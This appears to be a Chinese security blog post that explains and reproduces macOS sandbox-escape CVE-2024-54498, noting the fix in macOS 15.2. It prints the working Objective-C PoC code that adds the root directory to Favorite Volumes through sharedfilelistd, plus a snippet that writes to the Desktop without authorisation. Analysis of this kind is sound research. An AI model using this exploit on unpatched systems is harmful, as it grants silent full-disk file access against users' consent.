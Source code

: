 #  macos高危漏洞CVE-2024-54498 解析+复现   
原创 棉花糖糖糖  棉花糖fans   2025-01-13 19:23  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/1mtwZURvGTkCK3ZFyqYEyTwmaLo2YSMeibz3eeShkewiadS4oh0RBl1U7BTVeEscGQrEbjWKcQzGpJEFLwr4cFQw/640?wx_fmt=gif&wxfrom=13&wx_lazy=1&tp=wxpic "")  
  
## 前言:  
  
前两天看到github有公开一个mac的cve，影响了15.2以下的版本，刚好我也用的mac，看看会不会影响到我，特抽时间看了一下，有搞错的地方麻烦大佬补充修改。  
## 原理：  
  
先说下前情提要，苹果的macos有个沙箱机制，每个应用都只能访问自己独立的沙箱数据，如果需要访问其他数据，比如桌面文件夹，则需要用户手动授权，即唤起一个文件夹选择栏，让用户授权。  
  
而CVE-2024-54498绕过了这个限制，在无需用户授权的情况下也可写入/读取任意文件。  
  
简单研究了下poc，原理很简单，mac系统还有个机制/特性，就是共享文件，进程是sharedfilelistd。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lic4LrsB27nvxHMtOvM37Oia4E8yZuQkBLJcUAX1tGA0wI0uQDQCtOFLejXVKYE6suLiaBibItQXSaQYcUyBc1PWtg/640?wx_fmt=png&from=appmsg "")  
  
这个进程允许将全盘直接列入共享文件中，从而导致原本应该没有权限的目录被直接取得权限。  
## 复现：  
  
代码很简单，原poc中的关键函数是这样的：  
```
int add_root_dir_to_favorites(void) {
    CFStringRef listType = kLSSharedFileListFavoriteVolumes;
    LSSharedFileListRef favoriteVolumesList = LSSharedFileListCreate(NULL, listType, NULL);
    
    if (favoriteVolumesList) {
        NSString *path = @"/";
        CFURLRef tmpDirURL = (__bridge CFURLRef)[NSURL fileURLWithPath:path];
        
        LSSharedFileListItemRef newItem = LSSharedFileListInsertItemURL(
            favoriteVolumesList,
            kLSSharedFileListItemLast,
            NULL,
            NULL,
            tmpDirURL,
            NULL,
            NULL
        );
        
        if (newItem) {
            NSLog(@"[+] Successfully added %@ to Favorite Volumes.", path);
            CFRelease(newItem);
        } else {
            NSLog(@"[-] Failed to add %@ to Favorite Volumes.", path);
        }
        
        CFRelease(favoriteVolumesList);
    } else {
        NSLog(@"[-] Failed to access LSSharedFileList for Favorite Volumes.");
    }
    
    return 0;
}

int trigger_exploit(void) {
    LSSharedFileListRef recentItems = LSSharedFileListCreate(NULL, kLSSharedFileListFavoriteVolumes, NULL);
    if (recentItems) {
        NSArray *items = (__bridge NSArray *)LSSharedFileListCopySnapshot(recentItems, NULL);
        
        NSLog(@"items array: %@\n", items);
        for (id item in items) {
            LSSharedFileListItemRef itemRef = (__bridge LSSharedFileListItemRef)item;
            CFErrorRef errorRef;
            CFURLRef itemURL = LSSharedFileListItemCopyResolvedURL(itemRef, 0, &errorRef);
            NSString *itemPath = [(__bridge NSURL *)itemURL path];
            NSLog(@"itemPath: %@", itemPath);
        }
        CFRelease(recentItems);
    } else {
        NSLog(@"Failed to retrieve recent items.");
    }
    
    return 0;
}

```  
  
就像原理中说的，它调用了苹果的api让sharedfilelistd进程将根目录直接加入了共享列表中，验证它也很简单，直接尝试写入一个新文件到destop中即可。  
```
NSString *escaped_dir = [NSString stringWithFormat:@"%@/Desktop/exp", userDir];
    const char* escaped_contents = "无需申请授权即可访问destop文件夹";
    writeFileAtPath(escaped_dir.UTF8String, escaped_contents);

```  
  
写成几个函数直观一点。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lic4LrsB27nvxHMtOvM37Oia4E8yZuQkBL2eCWyfIycb3ibSYq38V3dA97O8Xvlxg6t79GBibD7ZicurKPNRiaj8quiaw/640?wx_fmt=png&from=appmsg "")  
  
复现视频：  
  
## 总结：  
  
这个漏洞利用正常功能点导致了另一个意料之外的后果，简单但有效，危害在于用户无感知地被取得了全盘权限，CVSS评分也来到了8.8，苹果在15.2版本中已修复此漏洞。  
```
https://github.com/wh1te4ever/CVE-2024-54498-PoC
```  
  
**广告：年末最后一次打广告了，会员站年终抽奖，奖总计5000元,此时就是最好的购买时机！**  
  
****  
![](https://mmbiz.qpic.cn/mmbiz_jpg/lic4LrsB27nsCoUtu7S3iaU9uQd1tDmUkkVTPUPn8MbUmWHnPzhO5T5d6a0xf1O25iaEs8GSrjMFWmlJVXTHWfDIw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
☟上下滑动查看更多  
  
## 往期文章  
  
  
[自定义kali：增加60+常用渗透工具，哥斯拉特战版，cs魔改应有尽有，菜单栏启动2024-12-27 ](https://mp.weixin.qq.com/s?__biz=MzkyOTQzNjIwNw==&mid=2247491206&idx=1&sn=b7eaef72230be9c92c0e5a1dde5d0f66&scene=21#wechat_redirect)  
  
  
[交流群新增github poc监控机器人2024-12-29 ](https://mp.weixin.qq.com/s?__biz=MzkyOTQzNjIwNw==&mid=2247491222&idx=1&sn=e39e5a74e9431480b1582b2b79c317f7&scene=21#wechat_redirect)  
  
  
[年末最后一次打广告了，会员站年终抽奖，奖品总计5000元,此时就是最好的购买时机！2024-12-30 ](https://mp.weixin.qq.com/s?__biz=MzkyOTQzNjIwNw==&mid=2247491224&idx=1&sn=47968ba82b9e6bea17b2511da4faf5a7&scene=21#wechat_redirect)  
  
  
  
